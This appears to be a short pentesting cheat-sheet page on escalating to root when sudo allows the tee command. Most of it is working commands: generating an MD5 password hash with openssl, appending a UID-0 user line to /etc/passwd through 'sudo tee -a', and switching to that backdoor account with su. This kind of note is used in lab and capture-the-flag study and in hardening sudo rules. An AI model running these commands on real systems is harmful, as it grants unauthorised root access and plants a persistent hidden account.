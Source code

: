 ```yaml
---
title: Sudo Tee Privilege Escalation
description: Sudo tee command is vulnerable to privilege escalation.
tags:
    - Privilege Escalation
refs:
date: 2023-02-26
draft: false
---
```


## Investigation

```bash
(root) NOPASSWD: /usr/bin/tee
```

If we can execute **`tee`** command as root, we can escalate to privilege.

<br />

## Exploitation

### 1. Create a New Password for New User

Assume the new username is "tester".

```sh
# -1: MD5 algorithm
# -salt: Use privided salt -> The new username here
openssl passwd -1 -salt "tester" "password123"

# Output: $1$tester$LvsygQ2GEt7VUJQEqhMLf/
```

Copy the output password.

### 2. Write New Line with Tee

Paste the password in **`printf`** and overwrite **`/etc/passwd`** using **`tee`** command.

```sh
printf 'tester:$1$tester$LvsygQ2GEt7VUJQEqhMLf/:0:0:root:/root:/bin/bash\n' | sudo tee -a /etc/passwd
```

### 3. Switch to New User

Now the new user was created.  
We can switch to the new user.

```sh
su tester
password: password123
```